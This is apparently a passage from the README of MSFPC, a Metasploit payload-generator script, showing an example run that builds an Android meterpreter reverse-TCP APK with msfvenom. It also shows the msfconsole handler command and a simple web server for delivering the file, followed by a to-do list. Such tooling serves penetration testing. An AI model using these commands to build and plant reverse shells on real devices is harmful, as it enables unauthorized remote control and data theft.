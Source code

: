 _Note: Removed WAN IP._


## Example \#4 (Loop - Generates one of everything)

```bash
$ ./msfpc.sh loop wan
 [*] MSFvenom Payload Creator (MSFPC v1.4.4)
 [i] Loop Mode. Creating one of each TYPE, with default values

 [*] MSFvenom Payload Creator (MSFPC v1.4.4)
 [i]   IP: xxx.xxx.xxx.xxx
 [i] PORT: 443
 [i] TYPE: android (android/meterpreter/reverse_tcp)
 [i]  CMD: msfvenom -p android/meterpreter/reverse_tcp \
  LHOST=xxx.xxx.xxx.xxx LPORT=443 \
  > '/root/android-meterpreter-stageless-reverse-tcp-443.apk'

 [i] android meterpreter created: '/root/android-meterpreter-stageless-reverse-tcp-443.apk'

 [i] MSF handler file: '/root/android-meterpreter-stageless-reverse-tcp-443-apk.rc'
 [i] Run: msfconsole -q -r '/root/android-meterpreter-stageless-reverse-tcp-443-apk.rc'
 [?] Quick web server (for file transfer)?: python2 -m SimpleHTTPServer 8080
 [*] Done!


 [*] MSFvenom Payload Creator (MSFPC v1.4.4)

...SNIP...

 [*] Done!

$
```

_Note: Removed WAN IP._


![Examples](https://i.imgur.com/8zPx6p3.png)


- - -


## To-Do List

* Shellcode generation
* x64 payloads
* IPv6 support
* Look into using OS scripting more _(`powershell_bind_tcp` & `bind_perl` etc)_
